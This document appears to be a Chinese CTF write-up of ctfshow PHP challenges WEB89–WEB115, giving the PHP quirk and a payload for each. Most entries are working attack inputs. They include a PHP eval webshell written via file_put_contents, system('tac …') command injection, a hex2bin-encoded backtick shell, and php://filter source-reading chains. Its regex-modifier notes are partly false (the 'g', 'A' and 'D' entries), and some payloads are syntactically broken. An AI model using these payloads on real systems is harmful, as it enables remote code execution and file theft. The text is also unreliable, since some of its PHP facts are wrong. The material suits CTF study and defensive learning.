# PHP特性

## WEB89 考点：intval函数



intval函数当传入的变量也是数组的时候，会返回1

payload:?num[]=1

## WEB90 考点：intval函数


方法1：

intval($var,$base)，其中var必填，base可选，这里base=0,则表示根据var开始的数字决定使用的进制： 0x或0X开头使用十六进制，0开头使用八进制，否则使用十进制。 这里===表示类型和数值必须相等，我们可以使用4476的八进制或十六进制绕过检测。 paylod：num=010574或num=0x117c

方法2：

$unm==="4467"是字符串比较

intval($num,0)===4476是数字比较在比较时会将两边转换为同类型所以

payload：num=4467A

## WEB91  考点 preg_match 



考点 preg_match 中/i 表示不区分大小写 /m 表示匹配换行

所以用%0a（换行绕过）

payload：cmd=php%0a123

补充：

- `g`：全局匹配模式。通常情况下，正则表达式只会匹配第一个符合条件的结果，添加 `g` 修饰符后，可以匹配所有符合条件的结果。
- `s`：单行模式。默认情况下，`.` 不会匹配换行符 `\n`，添加 `s` 修饰符后，`.` 会匹配任意字符，包括换行符。
- `x`：忽略空白模式。添加 `x` 修饰符后，在正则表达式中可以使用空格和注释，这样可以增加正则表达式的可读性。
- `u`：Unicode 模式。在处理 Unicode 字符的时候，添加 `u` 修饰符可以正确处理多字节字符。
- `e`：替换模式。该修饰符仅适用于替换函数（如 `preg_replace()`）。它允许将替换字符串作为可执行的 PHP 代码使用。
- `A`：开启锚点模式。默认情况下，`^` 和 `$` 只匹配整个字符串的开头和结尾位置，添加 `A` 修饰符后，它们还可以匹配每一行的开头和结尾位置。
- `D`：非重叠模式。当使用 `preg_match_all()` 函数进行全局匹配时，添加 `D` 修饰符后，可以排除重叠的结果。


## WEB92

同90

## WBE93

同90

## WEB94 考点：intval



开头不能为0且a-z都被限制，但是第一个比较是字符串比较而intval是取整数比较所以通过构造小数绕过

payload：?num=4476.0

## WEB95 考点：审计




额小数点也被正则了

那么从第三个if中的strpos入手（strpos：返回寻找到的第一个位置）

题目中如果用八进制进行绕过（010574）第一个0的位置在第0位返回！0=1执行die

通过构造没用的东西在前面让0到第一个位置

payload：?num=%0a010574

payload：?num=+010574

## WEB96 考点：highlight_file



`highlight_file`里面表示的是文件路径,可以用`./`表示当前目录,或者用绝对路径

payload：u=./flag.php

## WEB97 MD5绕过


数组绕过

payload：a[]=1&b[]=2

## WEB98 审计



第一个判断是一个三元表达式，如果get为true则get和post指向同一个地址否则返回flag

那么根据最后一个三元表达式要使HTTP_FLAG=flag才能返回flag

那么通过一个和表达式构造get 1=1 使get和post指向同一个地址

然后post传入HTTP_FLAG=flag得到flag

payload：？1=1   post：HTTP_FLAG=flag

## WEB99  file_put_contents



审计。。file_put_contents原来把第二个参数的值写道第一个参数中可以原来创建一个新的文件写入一句话。

get（n）中的值需要在随机数36--877中随机数从1-36开始即构造一个1.php

payload：

get:?n=1.php

post:	content=<?php eval($_POST['a'];)>

访问到1.php后post：a=system('ls');a=system(tac flag36d)		

## WEB100 审计



源码分析：

$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);涉及比较符优先级（&& > || > = > and > or）=优先级最高所以要v0=1则v1为数字

第一个判断里v2不能有分号（；）

第二个判断里v3必须有分号（；）

payload：?v1=1&v2=system("ls")&v3=;

​					?v1=1&v2=system("tac ctfshow.php")&v3=;

## WEB101 反射api



消除了100的非预期。。

思路：反射API

- ReflectionClass：一个反射类，功能十分强大，内置了各种获取类信息的方法，创建方式为new ReflectionClass(str 类名)，可以用echo new ReflectionClass('className')打印类的信息。
- ReflectionObject：另一个反射类，创建方式为new ReflectionObject(对象名)。

payload：?v1=1&v2=echo new Reflectionclass&v3=;

## WEB102 审计



v4为1 只要v2全为数字

[substr](https://so.csdn.net/so/search?q=substr&spm=1001.2101.3001.7020)(string,start<,length>)从string 的start位置开始提取字符串

call_user_func（a,b）：将b作为参数传入a中执行，返回调用函数的返回值

file_put_contents()：把一个字符串写入文件，如果文件不存在则创建之。

payload：

（get）v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php

（post）

v1=hex2bin

（115044383959474e6864434171594473这一串数字有些巧妙，这是16进制与字符串之间的互转，转换为16进制后的字符串，他其中又带有e也会被当做科学计数法，在这个题目中，结合hex2bin函数，从第3的数字读取转换为字符串正好就是<?=`cat *`;   实在是太妙了）

## WEB103

同102

## WEB104 sha1绕过



弱比较，数组绕过

payload:?v2[]=1,v1[]=1

## WEB105 考点变量覆盖



考点变量覆盖

因为`if(!($_POST['flag']==$flag)){ die($error); }`,
 只要不成立就会输出`$error`,我们可以在GET把flag赋值给suces,然后再把suces赋值给error就能显示flag了

payload：（get）?suces=flag  （post）error=suces

## WEB106

同104

## WEB107  弱比较



parse_str — 将字符串解析成多个变量

构造弱比较绕过

payload：（get）?v3[]=0 （post）v1="flag=0"


## WEB108 考点ereg的%00截断



考点ereg的%00截断

关于ereg：ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字 母的字符是大小写敏感的。 ereg函数存在NULL截断漏洞，导致了正则过滤被绕过,所以可以使用%00截断正则匹配

payload：?c=a%00778

## WEB109 考点类利用



考点类利用

exception：返回字符串

payload：/?v1=exception&v2=system('tac fl36dg.txt')

## WEB110  php内置类 利用



考察：php内置类 利用 FilesystemIterator 获取指定目录下的所有文件 http://phpff.com/filesystemiterator https://www.php.net/manual/zh/class.filesystemiterator.php getcwd()函数 获取当前工作目录 返回当前工作目录

 payload: ?v1=FilesystemIterator&v2=getcwd


## WEB111  变量覆盖



php中$GLOBALS的用法是引用是全局作用域中的可用的全部变量，例如【$GLOBALS["foo"]】。$GLOBALS是一个包含了全部变量的全局组合数组。

思路v1固定为ctfshow，在eval中可将v2的值赋给v1

利用GLOBALS打印代码中所有全局变量

payload：?v1=ctfshow&v2=GLOBALS

## WEB112  php伪协议



思路file不能是一个文件且要执行highlight_file,考虑伪协议

ba64，rot13等被正则

payload: file=php://filter/resource=flag.php

其他姿势：

payload: file=php://filter/read=convert.quoted-printable-encode/resource=flag.php
payload: file=compress.zlib://flag.php
payload: file=php://filter/read=convert.iconv.utf-8.utf-16le/resource=flag.php
payload:file=php://filter/convert.%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35/resource=flag.php（对过滤器两次url编码）

## WEB113

同102

payload：payload: file=compress.zlib://flag.php

## WEB114

同102

## WEB115 审计trim



要求num不能为36且在filter出来后为36

搜索了一下发现trim不会对%0c进行处理

payload：?num=%0c36

## WEB123 字符串解析特性

